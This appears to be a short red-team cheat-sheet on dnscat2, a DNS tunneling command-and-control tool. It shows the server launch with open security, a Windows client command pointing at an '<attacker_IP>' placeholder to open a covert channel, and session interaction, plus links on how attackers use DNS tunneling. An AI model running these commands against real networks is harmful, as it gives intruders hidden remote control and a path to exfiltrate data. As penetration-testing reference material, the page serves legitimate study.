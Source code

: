 # Core Commands

TODO: Provide a usage example with dnscat

## Usage

```
$ sudo ./dnscat2.rb

dnscat2> set security=open
```

```
C:\> dnscat2-win32.exe --host <attacker_IP>
```

## Help Menu

```
dnscat2> session -i 1

command session 1> help
```

---
## References

- [DNScat](https://github.com/iagox86/dnscat2)

- [Cynet: How Hackers Use DNS Tunneling to Own Your Network](https://www.cynet.com/attack-techniques-hands-on/how-hackers-use-dns-tunneling-to-own-your-network/)

- [CryptoWorld: How to organize DNS tunneling](https://cryptoworld.su/kak-organizovat-dns-tunneling/)

- [SkullSecurity: dnscat2 0.05: with tunnels!](https://www.skullsecurity.org/2015/dnscat2-0-05-with-tunnels)
